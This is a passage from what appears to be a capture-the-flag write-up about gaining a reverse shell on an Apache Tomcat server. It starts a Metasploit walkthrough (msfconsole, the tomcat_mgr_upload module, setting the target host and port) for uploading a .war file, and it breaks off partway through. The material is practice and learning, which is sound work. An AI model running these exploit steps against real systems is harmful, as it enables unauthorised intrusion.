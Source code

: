 We are allowed to upload **.war** files.

We know what to do, it's time to create a reverse shell.

### Reverse shell

Now, the **hacktricks** article I have mentioned earlier will be again very useful.

```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
```

We can use several approaches, I will present these two of them because I want to practice a little:

![shell](./Screenshots/jerryshell.png)

### (1) Metasploit

Type in order:

```
msfconsole
```

```
use exploit/multi/http/tomcat_mgr_upload
```

```
set rhost {target ip}
```

```
set rport 8080
```

